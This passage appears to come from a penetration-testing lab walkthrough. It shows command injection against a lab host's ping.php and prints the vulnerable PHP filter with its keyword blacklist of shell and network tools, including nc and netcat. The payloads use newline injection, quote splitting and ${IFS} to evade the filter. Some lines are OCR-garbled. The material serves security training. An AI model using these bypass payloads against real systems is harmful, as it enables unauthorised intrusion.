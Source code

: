         There seems to be some sort of filtering in place because trying standard payloads like GET /ping.php?ip=%127.0.0.1;id and GET /ping.php?ip=%127.0.0.1|id result in an Invalid input error, meaning there is probably a character blacklist in play. We can bypass this filter by using a line feed character %0A (or new-line character) as our injection operator following the methodology discussed in the Bypassing Space Filters section. We can make a request appending the new-line character like so GET /ping.php?ip=127.0.0.1%0a, and the ping is still successful, meaning the character is not blacklisted.

        We've won the first battle, but there seems to be another type of filter in place, as trying something like GET /ping.php?ip=127.0.0.1%0aid still results in an Invalid input error. Next, we can play around with the command syntax and see that we can bypass the second filter using single quotes. Switching to cURL, we can run the id command as follows:

        $ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'd"


        We have achieved command execution as the webdev user. Digging around a bit more, we see that this host has multiple IP addresses, one of which places it inside the 172.16.8.0/23 network that was part of the initial scope. If we can gain stable access to this host, we may be able to pivot into the internal network and start attacking the Active Directory domain.


        $ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'fconfig"

        t we can use the ($IFS) Linux Environment Variable to bypass space restrictions. We can combine this with the new-line character bypass and start enumerating ways to obtain a reverse shell. To aid us, let's take a look at the ping.php file to get an understanding of what is being filtered so we can limit the amount of guesswork needed.

        t GET /ping.php?ip=127.0.0.1%0a'c'at${IFS}ping.php



        <?php
        ini_set('display_errors', 1);
        ini_set('display_startup_errors', 1);
        error_reporting(E_ALL);
        $output = '';

        function filter($str)
        {
        $operators = ['&', '|', ';', '\\', '/', ' '];
        foreach ($operators as $operator) {
        if (strpos($str, $operator)) {
        return true;
        }
        }
        $words = ['whoami', 'echo', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
        foreach ($words as $word) {
        if (strpos($str, $word) !== false) {
        return true;
        }
        }
